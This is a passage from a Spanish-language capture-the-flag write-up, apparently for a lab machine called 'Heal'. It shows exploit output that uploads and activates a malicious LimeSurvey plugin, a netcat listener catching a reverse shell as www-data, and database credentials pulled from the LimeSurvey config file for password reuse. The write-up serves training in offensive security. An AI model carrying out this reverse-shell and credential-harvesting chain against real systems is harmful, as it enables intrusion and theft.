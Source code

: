 ```console
[+] Sending Login Request...
[+]Login Successful

[+] Upload Plugin Request...
[+] Retrieving CSRF token...
WTVRakttQl8xMXFsUVJMeEVDWDcwOVQ2cnQ5a1dveVI5mM_0j8QrwgUZKudenc1tWFyRQIaRhIbkihfzobQUag==
[+] Plugin Uploaded Successfully

[+] Install Plugin Request...
[+] Retrieving CSRF token...
WTVRakttQl8xMXFsUVJMeEVDWDcwOVQ2cnQ5a1dveVI5mM_0j8QrwgUZKudenc1tWFyRQIaRhIbkihfzobQUag==
[+] Plugin Installed Successfully

[+] Activate Plugin Request...
[+] Retrieving CSRF token...
WTVRakttQl8xMXFsUVJMeEVDWDcwOVQ2cnQ5a1dveVI5mM_0j8QrwgUZKudenc1tWFyRQIaRhIbkihfzobQUag==
[+] Plugin Activated Successfully

[+] Reverse Shell Starting, Check Your Connection :)
```

Y vemos que ganamos acceso como `www-data`
```console
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.103] from (UNKNOWN) [10.129.142.207] 46280
Linux heal 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 19:06:01 up  1:16,  0 users,  load average: 0.05, 0.06, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# User Pivoting
## Abusing Password Reuse
Después de hacer el tratamiento de la TTY podemos enumerar la máquina y en el directorio `/var/www/limesurvey` la instancia de `LimeSurvey`, [buscando en Google](https://forums.limesurvey.org/forum/installation-a-update-issues/112851-how-find-database-info-in-limesurvey) podemos encontrar esta entrada del foro oficial de LimeSurvey donde nos dice la ruta del archivo de configuración de acceso a base de datos.
Si comprobamos el archivo `/var/www/limesurvey/application/config/config.php` encontramos el siguiente fragmento.
```php
'db' => array(
			'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;',
			'emulatePrepare' => true,
			'username' => 'db_user',
			'password' => 'AdmiDi0_pA$$w0rd',
			'charset' => 'utf8',
			'tablePrefix' => 'lime_',
		),
```
